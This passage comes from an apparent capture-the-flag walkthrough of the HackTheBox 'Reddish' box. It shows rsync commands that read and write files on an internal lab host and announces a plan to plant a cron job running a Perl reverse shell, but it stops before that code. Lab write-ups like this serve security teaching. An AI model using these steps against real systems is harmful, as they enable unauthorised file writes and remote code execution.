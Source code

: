 **rsync -rdt rsync://172.20.0.2/src**

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Reddish%20Box%20c238084c8dce4904a0b15346c2be4c32/Untitled%2035.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Reddish%20Box%20c238084c8dce4904a0b15346c2be4c32/Untitled%2035.png)

→ Looks like we can read system files. 

→ Lets try writing files :

**rsync enox rsync://172.20.0.2/src/tmp/**

**rsync -svdt rsync://172.20.0.2/src/tmp/**

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Reddish%20Box%20c238084c8dce4904a0b15346c2be4c32/Untitled%2036.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Reddish%20Box%20c238084c8dce4904a0b15346c2be4c32/Untitled%2036.png)

Looks like we can write files

### Exploiting rsync to get shell on 3rd machine

⇒ We will be writing an cronjob in /etc/cron.d to execute an bash script containing our perl reverse shell :

→ Creating cronjob file :

